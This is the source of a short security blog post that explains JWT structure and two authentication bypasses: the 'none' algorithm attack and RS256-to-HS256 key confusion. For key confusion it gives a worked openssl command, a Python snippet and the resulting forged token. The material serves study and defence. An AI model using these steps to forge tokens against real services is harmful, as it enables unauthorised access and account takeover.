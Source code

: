 ```yaml
---
layout: post
title:  "Attacking JWT Authentication"
date:   2020-07-27 10:16:00
tags:   [JWT]
---
```


### Description
This post contains the ways to bypassing authentication with JWT exploit.
<br/>
<br/>


### JWT
Json Web Token is mainly used for web authentication and is a JSON-like data structure with cryptographic signatures. It consists of urlsafe base64 encoded data (characters, numbers, _ and -), separated by three parts with dots.

<br/>
<br/>


### JWT Structure
Json Web Token consists of three parts those are Header, Body and Signature.
```
# RS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
```
# HS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### None Type Attack
This is a vulnerability that usually occurs when the web or API trusts the JWT header. It can be used by changing the algorithm part of the JWT header to none. Attacker can changes body data with `None` alg.
```
Headers = {
  "typ" : "JWT",
  "alg" : "None"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### Key Confusion Attack
```
jwt = JWT.decode(token, public_key)
```
If there is a part of the decode JWT like above example and server trusts algorithm of token header, JWT using the existing `RS256` normally checks the signature of the token, but JWT using the `HS256` uses the second argument `public_key` as the decryption key to change the algorithm when the public key is obtained. Internal data can be changed.
```
# Before
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# After
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# Body and Header data after urlsafe base64 encoding
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9
```
<br/>

Attacker can sign with public key after changing data.
```sh
# Checking hex raw.
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9" | openssl dgst -sha256 -mac HMAC -macopt hexkey:$(cat signing.pem | xxd -p | tr -d "\\n")
(stdin)= 38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62
```
```python
# Encoding sign value.
import base64, binascii

print base64.urlsafe_b64encode(binascii.a2b_hex('38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62')).replace('=','')

# return => OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
```
# JWT generated
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9.OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
<br/>
<br/>

